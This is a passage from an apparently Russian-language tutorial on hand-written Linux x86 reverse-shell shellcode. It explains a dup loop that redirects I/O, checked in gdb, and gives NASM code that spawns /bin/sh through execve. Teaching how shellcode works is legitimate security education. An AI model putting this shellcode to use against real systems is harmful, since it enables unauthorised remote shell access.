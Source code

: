 `jns` просто выполняет переход к "dup", пока флаг знака (`SF`) не установлен.   

Теперь отладим с помощью `gdb` и проверим значение `ecx`:   
```bash
gdb -q ./rev
```

![gdb ecx -1](./images/14/2021-10-16_13-34.png){width="80%"}       

Как видите, после третьего `dec ecx` он содержит `0xffffffff`, что эквивалентно -1, а `SF` устанавливается, и выполнение shellcode продолжается.     

В результате все три потока ввода-вывода перенаправлены. :)       

### запуск оболочки с execve

Этот фрагмент кода аналогичен примеру из первой части, но с небольшим изменением:
```nasm
; запуск /bin/sh с использованием execve
; int execve(const char *filename, 
; char *const argv[],char *const envp[]);
mov  al, 0x0b    ; системный вызов: sys_execve = 11 (mov eax, 11)
inc  ecx         ; argv=0
mov  edx, ecx    ; envp=0
push edx         ; завершающий NULL
push 0x68732f2f   ; "hs//"
push 0x6e69622f   ; "nib/"
mov  ebx, esp    ; сохраняем указатель на имя файла
int  0x80        ; системный вызов: exec sys_execve
```
